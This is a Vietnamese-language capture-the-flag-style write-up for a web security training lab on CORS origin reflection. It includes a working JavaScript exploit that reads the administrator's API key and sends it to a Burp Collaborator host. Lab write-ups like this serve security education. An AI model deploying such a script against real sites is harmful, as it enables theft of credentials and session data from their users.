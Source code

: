 ## CORS vulnerability with basic origin reflection



Sau khi truy cập vào bằng tài khoản wiener, mỗi người dùng sẽ có 1 khóa API key riêng và để giải quyết challenge này chúng ta cần truy xuất khóa API của administrator.

Tiêu đề phản hồi `Access-Control-Allow-Credentials` với giá trị true cho thấy nó bao gồm thông tin đăng nhập. Header này có thể hoạt động với [XMLHttpRequest.withCredentials](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/withCredentials) trong phương thức khởi tạo fetch API như sau:

``` apl
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://example.com/', true);
xhr.withCredentials = true;
xhr.send(null);

```

![image](https://user-images.githubusercontent.com/68894302/174548734-db51031a-e822-4260-9fe0-e0ce3ec9250d.png)

Nếu chúng ta thêm vào header Origin thì phản hồi trả về  `Access-Control-Allow-Origin: $URL`. 

![image](https://user-images.githubusercontent.com/68894302/174546967-214144fa-eff9-4c58-9d10-21a8b7fe5571.png)

Bởi vì ứng dụng phản ánh nguồn gốc tùy ý trong `Access-Control-Allow-Origin`, điều này có nghĩa là hoàn toàn bất kỳ miền nào cũng có thể truy cập tài nguyên từ miền dễ bị tấn công. Phản hồi chứa bất kỳ thông tin nhạy  cảm khóa API, chúng ta có thể truy xuất thông tin này bằng cách đặt tập lệnh sau trên máy chủ exploit:

``` apl
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a6000e10431a31cc090124100fd0094.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//x53hff3il6jf1ljbhom5v85fv61wpl.burpcollaborator.net/?key='+this.responseText;
};
```



![image](https://user-images.githubusercontent.com/68894302/174548555-5382ce14-2444-4611-ae27-4f1106e3c192.png)

Submit secret key của admin.

![image](https://user-images.githubusercontent.com/68894302/174549124-bcab02a1-636b-406c-9d77-4560702e1f40.png)